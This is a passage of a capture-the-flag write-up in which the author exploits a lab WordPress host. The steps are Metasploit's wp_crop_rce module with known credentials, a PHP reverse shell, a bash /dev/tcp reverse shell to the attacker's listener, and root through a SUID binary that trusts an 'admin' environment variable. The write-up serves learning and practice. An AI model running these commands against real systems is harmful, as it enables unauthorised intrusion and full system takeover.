[*] 10.114.149.78 - Meterpreter session 79 closed.
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 80 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 80 closed.
[*] 10.114.149.78 - Meterpreter session 80 closed.  Reason: Died
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 81 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 81 closed.
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 82 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 82 closed.
```

Still no stable session, after quite some time spent on it. I consulted a few writeups at this point, thinking perhaps the Meterpreter payload wasn't to be; however, every single one that I had consulted used the default Meterpreter payload successfully, with no such hiccups that I had encountered. I tried restarting the target instance lest it was faulty, but that too was ruled out. Ultimately, I failed to pin down the exact cause of the problem. 

After much anguish, I decided to move away from Meterpreter altogether, opting for a plain PHP reverse shell. 

```shell
msf exploit(multi/http/wp_crop_rce) > set payload php/reverse_php
payload => php/reverse_php
msf exploit(multi/http/wp_crop_rce) > exploit
[*] Started reverse TCP handler on —REDACTED—:4444
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Command shell session 1 opened (—REDACTED—:4444 -> 10.114.131.84:34942) at 2026-11-28 00:26:59 +0200
[*] Attempting to clean up files...

whoami
www-data
[*] 10.114.131.84 - Command shell session 1 closed.
```

The command runs the exploit with the simpler payload. It succeeded on the first try, and confirms the resulting shell runs as `www-data`.

This worked, landing a command shell as `www-data`. It closed on its own after being idle while I typed up notes, so I ran the exploit again to get it back; then I backgrounded the session and upgraded to a full Meterpreter session.

```shell
^Z
Background session 3? [y/N]  y
msf exploit(multi/http/wp_crop_rce) > sessions l

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  3         shell php/php               —REDACTED—:4444 -> 10.114.131.84:35042 (10.114.131.84)

msf exploit(multi/http/wp_crop_rce) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session: [3]
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: php. This module works with: Linux, OSX, Unix, Solaris, BSD, Windows.
[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on —REDACTED—:4433
[*] Sending stage (1079144 bytes) to 10.114.131.84
[*] Meterpreter session 4 opened (—REDACTED—:4433 -> 10.114.131.84:36108) at 2026-11-28 00:34:39 +0200
[*] Command stager progress: 100.00% (773/773 bytes)
msf exploit(multi/http/wp_crop_rce) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information      Connection
  --  ----  ----                   -----------      ----------
  3         shell php/php                           —REDACTED—:4444 -> 10.114.131.84:35042 (10.114.131.84)
  4         meterpreter x86/linux  www-data @ blog  —REDACTED—:4433 -> 10.114.131.84:36108 (10.114.131.84)

msf exploit(multi/http/wp_crop_rce) > sessions -i 4
[*] Starting interaction with 4...

meterpreter >
```

```shell
meterpreter > shell
Process 1789 created.
Channel 1 created.
whoami
www-data
```

## Stabilising the Shell

Working inside this shell through meterpreter meant the usual `python3 -c 'import pty;pty.spawn(...)'` plus `stty raw -echo` upgrade to a fully interactive TTY wasn't available, since that trick relies on backgrounding the job at the OS level, outside of what msfconsole allows here. A pty was still spawned, to get a more usable prompt.

```shell
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blog:~/wordpress$
```

This landed in `/home/www-data/wordpress`, as `www-data`. The terminal type was set so `clear` would work properly.

```shell
www-data@blog:~/wordpress$ clear
clear
TERM environment variable not set.
www-data@blog:~/wordpress$ export TERM=tmux-256color
export TERM=tmux-256color
```

With a working shell, the user flag was the next target.

```shell
www-data@blog:~/wordpress$ find / -name "user.txt" 2>/dev/null
find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
```

The command searches the whole filesystem for `user.txt`, turning up one match in Billy Joel's home directory.

```shell
www-data@blog:/home/bjoel$ cd /home/bjoel
cd /home/bjoel
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
```

However, this wasn't the real flag, and was another red herring from the author. It seemed privilege escalation was necessary even for the user flag, since no other account in /etc/passwd indicated a lateral movement target. 

Moreover, since not being able to tab-complete inside the msfconsole/Meterpreter-wrapped shell(s) was slowing things down, and the usual `stty raw -echo` trick wasn't possible here (to my present knowledge), I decided to reverse shell to a dedicated netcat listener.

```shell
www-data@blog:/home/bjoel$  bash -c 'bash -i >& /dev/tcp/—REDACTED—/1234 0>&1'
1'ash -c 'bash -i >& /dev/tcp/—REDACTED—/1234 0>&1
```

A netcat listener was already waiting for it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.131.84] 58228
www-data@blog:/home/bjoel$
```

With the connection caught, a pty was spawned inside it the same way as before, then properly stabilised.

```shell
www-data@blog:/home/bjoel$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blog:/home/bjoel$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234

www-data@blog:/home/bjoel$ export TERM=tmux-256color
www-data@blog:/home/bjoel$ stty rows 52 cols 236

```

## Privilege Escalation

With a proper interactive shell in place, privilege escalation was next. There was nothing in crontab, and `sudo -l` asked for a password that wasn't available, so SUID binaries were the next avenue.
### Locating SUID Binaries

```shell
www-data@blog:/home/bjoel$ find / -perm -04000 -type f -ls 2>/dev/null | grep -v -E '(snap|lib)'
   394827     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
   394810     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
   394700     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
   394607     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
   394811     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
   394847     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
   394605     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
   394952    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
   394554     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
   394809     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newgidmap
   394988     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   415459     12 -rwsr-sr-x   1 root     root         8432 May 26  2020 /usr/sbin/checker
   524952     44 -rwsr-xr-x   1 root     root          43088 Mar  5  2020 /bin/mount
   524356     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   524954     28 -rwsr-xr-x   1 root     root          26696 Mar  5  2020 /bin/umount
   524407     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   524423     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
```

`checker` wasn't a binary I'd seen before, and it isn't a standard Linux tool either after some research. Running it showed what it did.

### Reverse-Engineering the `checker` Binary

```shell
www-data@blog:/home/bjoel$ /usr/sbin/checker
Not an Admin
```

It looked like some kind of admin check. The strings inside it were worth pulling out to see what it referenced.

```shell
www-data@blog:/home/bjoel$ strings /usr/sbin/checker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
puts
getenv
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=9
AWAVI
AUATL
[]A\A]A^A_
admin
/bin/bash
Not an Admin
;*3$"
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7698
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
checker.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
getenv@@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
puts@@GLIBC_2.2.5
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

The command pulls the human-readable strings out of the binary, showing calls to `getenv`, `setuid`, `system` and `puts`, plus the literal strings `admin`, `/bin/bash` and `Not an Admin`—enough to suggest the binary checks for an environment variable named `admin` before calling `setuid` and spawning `/bin/bash`, but not enough to pin down the exact logic. Therefore, I downloaded the binary for proper decompilation with Ghidra. 

```shell
www-data@blog:/home/bjoel$ cd /usr/sbin
www-data@blog:/usr/sbin$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wget http://10.114.131.84:8080/checker -O checker  
--2026-11-28 01:03:59--  http://10.114.131.84:8080/checker
Connecting to 10.114.131.84:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8432 (8.2K) [application/octet-stream]
Saving to: ‘checker’

checker                                                    100%[========================================================================================================================================>]   8.23K  --.-KB/s    in 0s      

2026-11-28 01:03:59 (1.05 GB/s) - ‘checker’ saved [8432/8432]

```

This was my first time using Ghidra, so it took some trial and error following beginner guides, but I eventually stumbled upon a usable decompilation of `main`.



```c
undefined8 main(void)

{
  char *pcVar1;
  
  pcVar1 = getenv("admin");
  if (pcVar1 == (char *)0x0) {
    puts("Not an Admin");
  }
  else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
}
```

The decompiled code shows the binary checks only whether an environment variable called `admin` exists at all, and grants a root shell through `/bin/bash` if it does.

Any value for `admin` would satisfy it.

### Exploiting the `checker` Binary

And thus, I created an environment variable named `admin` with the value `1`.

```shell
www-data@blog:/usr/sbin$ export admin=1
www-data@blog:/usr/sbin$ echo $admin
1
```

Then ran the binary. 

```shell
www-data@blog:/usr/sbin$ checker
root@blog:/usr/sbin# whoami
root
```

Which as expected dropped me into `root`. Both flags were found from here.

## Finding the Flags

### `user.txt`

```shell
root@blog:/usr/sbin# find / -name "user.txt" -type f 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

```shell
root@blog:/usr/sbin# cat /media/usb/user.txt
—REDACTED—
```

**Answer:** `—REDACTED—`

### `root.txt`

The same search followed for root.

```shell
root@blog:/usr/sbin# find / -name "root.txt" -type f 2>/dev/null
/root/root.txt
```

```shell
root@blog:/usr/sbin# cat /root/root.txt
—REDACTED—
```

**Answer:** `—REDACTED—`